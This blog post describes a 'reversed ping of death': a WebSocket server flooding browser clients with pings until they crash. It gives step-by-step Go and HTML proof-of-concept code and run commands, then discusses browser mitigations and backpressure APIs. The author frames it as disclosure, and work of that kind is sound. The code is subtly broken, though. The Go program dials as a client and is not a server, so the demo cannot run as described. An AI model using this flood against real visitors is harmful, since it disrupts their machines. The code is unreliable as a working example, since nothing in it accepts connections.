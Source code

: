 ```yaml
---
title: WebSockets Reversed Ping of Death
published: 2025-06-10
customPostAuthors: ["Rantouan Achmet"]
draft: false
lang: en
description: WebSockets Reversed Ping of Death
tags: []
---
```


**Warning:** The following action may cause a visitor’s browser or even their computer to crash. This information is provided for educational purposes only. Use it responsibly.

I do not encourage or condone the misuse of this knowledge, and I disclaim any responsibility for any damage, disruption, or unintended consequences resulting from its use. Proceed at your own risk.

---

One of the first things someone learns in martial arts is that when you hold someone, that someone holds you too. If, for example, that someone falls on purpose while you’re holding them tightly, chances are you might fall too.

Even though there isn’t a special name for this idea, it can be found in Aiki martial arts principle, where the main point is that the opponent’s energy becomes a tool in your hands if you redirect it wisely.

When you write a program that handles WebSocket connections, one of the main security concerns is preventing a client from flooding you with messages or pings with bad intentions.

But what if I told you that, on the other side, no browser checks if someone attacks with abnormal load of WebSocket messages or pings in bad faith — and just ends up crashing?

---

You can easily test this yourself:

1. Bookmark this page first, so you can return after a crash.

2. Write a Go program that opens a WebSocket connection and continuously sends pings in a highly repetitive loop:

```go
// main.go
package main

import (
    "log"
    "github.com/gorilla/websocket"
)

func main() {
    url := "ws://localhost:3001"
    conn, _, err := websocket.DefaultDialer.Dial(url, nil)
    if err != nil {
        log.Fatal("Error connecting to WebSocket:", err)
    }
    defer conn.Close()

    for {
        err := conn.WriteMessage(websocket.PingMessage, nil)
        if err != nil {
            log.Println("Error sending ping:", err)
            return
        }
    }
}
```

3. Write an HTML page that connects to this WebSocket connection:

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>WebSocket Reversed Ping of Death</title>
</head>
<body>
    <h1>WebSocket Reversed Ping of Death</h1>

    <script>
        const socket = new WebSocket("ws://localhost:3001/ws");

        socket.onerror = (error) => {
            console.error("WebSocket error:", error);
        };

        socket.onopen = () => {
            console.log("WebSocket connected.");
        };

        socket.onclose = () => {
            console.log("WebSocket closed.");
        };

        socket.onmessage = (event) => {
            console.log("WebSocket received:", event.data);
        };
    </script>
</body>
</html>
```

4. Run the Go program:

```bash
go mod init main
go mod tidy
go run main.go
```

5. Start a simple HTTP server to serve `index.html`:
   (If port 3002 is not available, pick another one, e.g., 3003…)

```bash
python3 -m http.server 3002
```

6. Open the page in your browser. For example:
   (If port 3002 was not available, use the other port you picked)

```
http://localhost:3002
```

---

Of course, the reason I’m writing these lines is not to enable script kiddies to annoy others, but to highlight a problem and propose a solution. Just to clarify, I am publishing this article only after having contacted major browser developers and submitted bug reports to ensure better client-side security checks for everyone.

Until all browsers implement a check, you can take care of yourself, by:

* If visiting a site crashed your computer, be aware that it’s possible and that it may be just this method described above used. Don’t panic and don’t believe everything.
* If you develop an application that depends on a third-party WebSocket, then make sure that you really trust the provider of it.

---

It’s the browsers that need to protect you from such a problem since the WebSocket API of them (which is kind of the same across all of them) doesn’t expose you the pings. This means that even if you write code that may find abnormal load of messages — good, perfect — but… you will never be able to see an abnormal load of pings, as you don’t get them at all like they don’t exist.

Using a custom proxy made to bypass and check the connection could be a real solution, as a proxy being a whole program, freed from the limitations of browsers, could detect abnormal loads of everything, including pings and kill the connection if needed.

I don’t provide the code to such a thing because this is simply opening other problems like what if someone abuses your proxy, so it’s a solution that needs to be implemented carefully and maybe customized.

---

Back to browsers, it’s worth noting that there are actually two other ways to have a WebSocket connection that claim to try to solve such problems. Well, they don’t talk exactly about the problem above (especially with the ping case), but they talk about almost the same and they call it **“backpressure”**. From Mozilla Developer Network:

> **Backpressure**
> An important concept in streams is backpressure — this is the process by which a single stream or a pipe chain regulates the speed of reading/writing. When a stream later in the chain is still busy and isn't yet ready to accept more chunks, it sends a signal backwards through the chain to tell earlier transform streams (or the original source) to slow down delivery so that you don't end up with a bottleneck anywhere.

[https://developer.mozilla.org/en-US/docs/Web/API/Streams\_API/Concepts#backpressure](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Concepts#backpressure)

Those two other ways are **WebTransport API** and **Streams API**. Both are great but very fresh, in contrast to the WebSocket API which has been around for more than a decade. They are so fresh that the first is not supported by Safari and the second is not supported by Firefox. And even the browsers that support one or the other do so only in very recent versions (and experimentally, I would guess).

